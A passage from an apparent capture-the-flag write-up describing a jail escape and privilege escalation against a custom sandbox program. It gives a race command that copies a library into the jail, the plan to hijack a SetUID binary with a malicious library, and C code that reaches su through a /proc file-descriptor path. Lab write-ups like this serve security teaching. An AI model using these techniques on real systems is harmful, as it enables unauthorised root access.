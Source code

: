 ```

clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /usr/bin/id a & until [ -d jails/a ]; do sleep 0.01; done; cp /lib/x86_64-linux-gnu/libselinux.so.1 jails/a/usr/lib/; echo "copied lib"
[1] 123244
copied lib
<program name unknown>: error while loading shared libraries: libpcre2-8.so.0: cannot open shared object file: No such file or directory
Exited

```

`id` still failed with an error for another missing library, but it does show that if I can copy a library into the jail, it will be used by the `userprog` running in that jail.

### Strategy

I’m going to abuse the `sandbox` application again. All these capabilities are all dropped before my code gets run, and even before the `fork` calls, so all three processes are running without these capabilities. However, if I use my binary to run something that is set to SetUID, then that process will be running as root. There are no SetUID binaries in the jail, but I already showed I can access files outside the jail using the file descriptor in PIDs 1 or 3.

I’ve also shown that I can copy libraries into the jail and have those used.

Putting this all together, I’ll write two binaries. The first is a malicious executable that will:
- Sleep for a second to allow me time to load libraries into the jail.
- Exploit the file descriptor to call a SetUID binary using `popen`.

The second is a malicious library that is loaded by the SetUID binary called by the executable. If I can get this library into the jail while the loader sleeps, then when the SetUID binary runs, it will run my malicious library, giving execution as root.

### Binary to Launch su

#### Write and Compile Binary

I’ll write a binary that will sleep and then launch `su` using the same trick I used to get a foothold:

```

#include <stdio.h>
#include <unistd.h>

int main() {

    sleep(3);

    size_t bytesRead = 0;

    FILE *run = popen("/proc/1/fd/3/../../../../../../../usr/bin/su", "r");
    char buf[1000] = {0};

    while ((bytesRead = fread(buf, sizeof(buf), 1, run)) > 0) {
        printf("%s", buf);
    }

    pclose(run);
}

```

